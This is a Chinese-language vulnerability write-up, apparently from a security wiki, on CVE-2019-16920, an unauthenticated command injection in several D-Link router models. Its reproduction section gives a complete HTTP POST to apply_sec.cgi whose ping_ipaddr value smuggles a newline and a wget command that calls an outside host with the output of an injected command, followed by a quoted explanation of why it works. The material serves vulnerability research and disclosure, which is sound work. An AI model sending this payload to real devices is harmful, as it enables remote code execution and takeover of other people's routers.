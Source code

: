 ## 一、漏洞简介

D-Link设备中出现未经身份验证的命令注入漏洞(FG-VD-19-117/CVE-2019-16920)，该漏洞可造成远程代码执行。

## 二、漏洞影响

DIR-655 ，DIR-866L，DIR-652，DHP-1565，DIR-855L，DAP-1533，DIR-862L，DIR-615，DIR-835，DIR-825等

## 三、复现过程

### poc

> 攻击者可以利用该漏洞将任意字符串发送到“PingTest”网关接口来实现命令注入。

```
POST /apply_sec.cgi HTTP/1.1
Host: 192.168.232.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Connection: close
Referer: http://192.168.232.128/login_pic.asp
Cookie: uid=1234123
Upgrade-Insecure-Requests: 1

html_response_page=login_pic.asp&action=ping_test&ping_ipaddr=127.0.0.1%0awget%20-P%20/tmp/%20http://45.76.148.31:4321/?$(echo 1234)
```

“该漏洞始于一次错误的身份验证过程。当我们要进入管理页面时，需要执行登录操作。此时，我们会对`apply_sec.cgi`页面发出`POST`请求，其中包含一个操作`ping_test`。研究后发现，我们可通过参数`ping_ipaddr`执行命令注入。虽然响应是返回登录页面，但操作`ping_test`仍然执行了，我们通过参数`ping_ipaddr`注入的命令`echo 1234`成功执行，并将结果发送回我们的服务器。”

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/D-Link/.resource/%EF%BC%88CVE-2019-16920%EF%BC%89D-Link%20rce/media/7-20201014111607378.png)


